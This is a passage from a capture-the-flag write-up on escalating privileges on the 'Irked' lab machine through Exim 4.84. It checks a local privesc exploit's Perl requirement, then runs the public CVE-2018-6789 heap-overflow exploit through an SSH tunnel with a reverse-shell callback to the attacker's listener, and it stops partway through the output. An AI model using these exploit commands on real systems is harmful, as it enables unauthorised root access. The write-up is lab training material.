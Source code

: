 If I connect to it, I see the banner:

```

djmardov@irked:/tmp$ nc 127.0.0.1 25                                        
220 irked ESMTP Exim 4.84_2 Tue, 20 Nov 2018 09:53:00 -0500  

```

`exim4` was a setuid binary in my `LinEnum.sh` output:

```
-rwsr-xr-x 1 root root 1085300 Feb 10  2018 /usr/sbin/exim4

```

#### Local Privesc Vulnerability - Fail

And this version does have a known [local privesc vulnerability](https://www.exploit-db.com/exploits/39549). Unfortunately for me, to be vulnerable, the system needs to be compiled with Perl support, which I can check with the following command:

```

djmardov@irked:/dev/shm$ /usr/sbin/exim -bV -v | grep -i Perl
djmardov@irked:/dev/shm$

```

No result means this isn’t vulnerable.

#### CVE-2018-6789 - Fail

I also tried CVE-2018-6789. It’s a super complex vulnerability that involves a heap overflow. But there are [POCs](https://www.exploit-db.com/exploits/45671), so I can point and fire and see if I get lucky.

I ran it, and it asks for callback ip, port, and target.

```

root@kali# python exim_exp.py 
exim_exp.py <cb> <cbport> <target>

```

Since the port is only listening on localhost, I’ll create an ssh tunnel:

```

root@kali# ssh djmardov@10.10.10.117 -L 25:localhost:25

```

Now I can talk to localhost port 25 on my box, and it will reach localhost 25 on Irked.

I’ll start a `nc` listener, and give it a run:

```

root@kali# python exim_exp.py 10.10.14.14 443 127.0.0.1
check vuln
220 irked ESMTP Exim 4.84_2 Thu, 04 Apr 2019 09:53:42 -0400
250-irked Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ...
250-SIZE 52428800
250-8BITMIME
250-PIPELINING
250 HELP
250-irked Hello BBBBBBBBBBBBBBBB [::1]
250-SIZE 52428800
250-8BITMIME
250-PIPELINING
```